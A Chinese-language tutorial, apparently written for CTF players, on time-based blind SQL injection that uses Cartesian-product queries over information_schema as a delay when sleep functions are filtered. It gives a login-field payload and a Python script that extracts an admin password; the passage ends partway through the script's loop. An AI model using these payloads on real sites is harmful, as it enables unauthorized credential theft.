 时间盲注在CTF比赛和平时生产环境中都是比较常见的，但是当我们常⽤的函数被过滤的话，那该怎么办呢？还有以下几种时间盲注方式。

##### 笛卡尔积延时盲注

`count(*)` 后面所有表中的**列笛卡尔积数**，**数量越多越卡**，就会有延迟，类似之前某比赛pgsql的延时注入也可以利用此来 **打时间差**，从而达到延时注入的效果：

```sql
mysql> SELECT count(*) FROM information_schema.columns A, 
information_schema.columns B, information_schema.tables C;
+-----------+
| count(*)  |
+-----------+
| 113101560 |
+-----------+
1 row in set (2.07 sec)

mysql> select * from ctf_test where user='1' 
and 1=1 and (SELECT count(*) FROM information_schema.columns A, 
information_schema.columns B, information_schema.tables C);
+------+-----+
| user | pwd |
+------+-----+
| 1    | 0   |
+------+-----+
1 row in set (2.08 sec)
```



得到的结果都会有延迟。这里选用`information_schema.columns表`的原因是其内部数据较多，到时候可以根据实际情况调换。



那么我们就可以使用这个原理，并配合if()语句进行延时注入了，payload 与之前相似，类似如下：



```sql
admin' and if(ascii(substr((select database()),1,1))>1,
(SELECT count(*) FROM information_schema.columns A,
information_schema.columns B, information_schema.tables C),0)#

[OUTPUT:]
HTTP/1.1 504 Gateway Time-out    # 有很长的延时, 以至于Time-out了
```



给出一个笛卡尔积延时注入脚本：



```python
import requests
url = 'xxxxxxxxxxx'
flag = ''
for i in range(1,250):
   low = 32
   high = 128
   mid = (low+high)//2
   while(low<high):
       payload = "' or if((select ascii(substr((select password from user where username='admin'),%d,1)))>%d,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),1)#" % (i, mid)
       datas = {
                "username":"admin",
                "password": payload
        }
       res = requests.post(url=url,data=datas,timeout=None)    # 不限制超时

       if '504 Gateway Time-out' in res.text:      # 为真时，即判断正确的时候的条件
           low = mid+1
```
